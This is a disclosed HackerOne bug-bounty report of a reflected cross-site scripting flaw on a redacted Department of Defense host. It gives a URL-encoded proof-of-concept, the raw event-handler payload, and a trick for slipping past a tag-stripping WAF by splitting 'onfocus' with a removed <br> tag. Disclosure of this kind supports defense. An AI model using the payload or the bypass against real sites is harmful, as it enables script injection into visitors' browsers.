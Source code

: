 # XSS on https://████/ via ███████ parameter

## Report Details
- **Report ID**: 1251868
- **URL**: https://hackerone.com/reports/1251868
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-05T15:57:36.075Z
- **Disclosed**: 2022-04-07T19:55:49.404Z

## Reporter
- **Username**: homosec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
PoC
```
https://████████/██████=█████████%22%20o%3Cbr%3Enfocus=confirm(1337)%20autofocus%20tabindex=1%20xss
```

Payload
```
 o<br>nfocus=confirm(1337) autofocus tabindex=1 xss
```

WAF bypass
Tags are removed from user input. It is allowed to bypass WAF.
███

## Impact

XSS on https://████████/

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Go to
```
https://█████/██████=████%22%20o%3Cbr%3Enfocus=confirm(1337)%20autofocus%20tabindex=1%20xss
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
